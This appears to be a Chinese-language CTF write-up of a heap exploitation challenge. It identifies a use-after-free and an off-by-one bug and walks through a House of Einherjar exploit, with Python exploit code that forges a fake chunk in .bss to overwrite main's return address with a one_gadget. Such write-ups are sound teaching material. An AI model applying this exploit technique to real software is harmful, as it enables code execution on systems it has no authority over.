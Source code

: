 

ida64打开

程序比较复杂，就不贴伪代码了，可以自行下载elf文件反编译

程序运行流程：

1、add 申请chunk并写入内容，在(`.bss`+0x100)处按顺序保存每一chunk的大小和地址，最多只能创建四个

2、delete 在free之后把size置0

3、edit 将内容写到(`.bss`+0x20)的位置,再用strcpy将内容复制到相应chunk

4、quit 结束程序

漏洞点：

1、在free之后没有将指针清零，存在UAF漏洞

2、自定义的read函数存在off by one 漏洞



所以大致思路是 先通过UAF泄露heap地址和libc地址，再通过House Of Einherjar在(`.bss`+0x40)处伪造fake_chunk，即可复写 保存所有chunk的大小和地址 的数组（因为该数组在`.bss`+0x40不远处），然后填充原本chunk1的位置为environ的地址，泄露计算出main_ret_addr，让chunk1指向main_ret_addr，将`main`函数的返回地址修改为`one_gadget`地址



重点看一下House Of Einherjar这段漏洞利用代码

（由于程序index从1开始 本文index也从1开始）

```
add(0x18,"d"*0x18)
add(0xf0,"e"*0xf0)
add(0xf0,'f'*0xf8)
add(0x100,"f"*0xf8)

fake_addr=0x602040+0x20
size=heap_base-fake_addr+0x20
print hex(size)
payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2
edit(3,payload)

for i in range(len(p64(size))-len(p64(size).strip('\x00'))+1):
    edit(1,'a'*0x10+p64(size).strip('\x00').rjust(8-i,'f'))
#edit(1,'a'*0x10+p64(size))
#gdb.attach(p)
delete(2)
p.recvuntil("\nDeleted.")
payload="a"*0x20+p64(0)+p64(0x111)+p64(main_arena)+p64(main_arena)
edit(4,payload)
```



1、`payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2`处构造fake_chunk，让fd和bk都指向fake_chunk绕过unlink的检验

2、在`edit(3,payload)`处将fake_chunk写入内存中，但是由于程序先将edit的内容写到`bss+0x20`处，再使用strcpy函数时被`\x00`截断，fake_chunk并没有被写入chunk3中，所以实际是在(`.bss`+0x40)处构造fake_chunk
